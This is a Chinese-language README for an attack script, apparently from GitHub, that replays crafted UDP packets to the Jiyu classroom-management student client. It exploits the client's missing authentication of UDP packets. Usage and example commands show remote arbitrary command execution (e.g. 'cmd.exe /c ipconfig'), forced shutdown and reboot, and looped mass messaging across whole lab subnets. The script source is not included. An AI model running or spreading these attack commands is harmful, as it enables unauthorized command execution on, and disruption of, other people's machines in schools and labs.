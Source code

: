 
# 极域电子教室数据包(udp)重放攻击脚本
+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3

## 使用方法：
```
    Usage: Jiyu_udp_attack.py -ip ip_address -p port -msg/-c/-r/-s xxx

        -ip   ip addres IP地址                 example:   -ip   192.168.80.23
                                                                192.168.80.122/24
        -p    port, default = 4705 端口，默认为4705

        -msg  send message 发送消息                        -msg  HelloWord!

        -c    command 命令                                 -c   "cmd.exe /c ipconfig" 
                                                                calc.exe
        -r    reboot 重启

        -s    shutdown 关机

        -l    loop * times, default = 1 循环次数，默认为1

        -t    loop interval, default = 22 s 循环时间间隔，默认是22秒
        
        -g    single options, Gets the current Intranet IP and student 
              client possible ports. 
              独立选项，获取当前的ip地址以及学生端监听的端口。
              If choose this options, other are become invalid. 
              如果选择了这个选项，其他选项将会失效。
          
```

## 使用例子

### 获取内网ip地址
```
python Jiyu_udp_attack.py -g
```

### 发送消息
向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -msg "hello,baby!"

```

### 执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -p -c calc.exe
```

### 关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -r
```

### 循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -p -msg "hello,baby!" -l 3 -t 50
```

    




